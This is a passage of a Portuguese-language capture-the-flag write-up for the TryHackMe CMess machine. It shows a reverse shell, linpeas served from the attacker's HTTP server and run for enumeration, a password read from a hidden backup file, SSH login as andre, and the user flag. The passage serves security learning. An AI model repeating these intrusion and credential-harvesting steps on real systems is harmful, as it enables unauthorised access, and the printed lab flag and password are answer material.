 Após inserir este input na página web, em nossa máquina já temos acesso ao **reverse shell**:

```
Connection from 10.10.215.52:49564  
/bin/sh: 0: can't access tty; job control turned off  
$ pwd     
/var/www/html  
$ whoami  
www-data  
$
```

Subi o https://github.com/carlospolop/PEASS-ng em um servidor **HTTP**, baixei o **linpeas.sh** e concedi permissão de execução com "**chmod +x linpeas.sh**".

Ao executar o arquivo, temos uma saída com inúmeras informações, porém, vamos dar ênfase a dois achados:
 - **/tmp/andre_backup.tar.gz**
 - **/opt/.password.bak**

```
╔══════════╣ Backup files (limited 100)  
-rw-r--r-- 1 root root 161 Jun  1 06:38 /tmp/andre_backup.tar.gz
[...]
-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak
[...]
```

Senha do usuário andre:

```
$ cat /opt/.password.bak  
andres backup password  
UQfsdCB7aAP6
```

Conectando via **ssh**:

```
ssh andre@cmess.thm  
andre@cmess.thm's password:    
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/advantage  
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20  
andre@cmess:~$ ls  
backup  user.txt
```

Nossa **primeira flag** se encontra dentro do arquivo **user.txt**:

```
andre@cmess:~$ cat user.txt    
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```
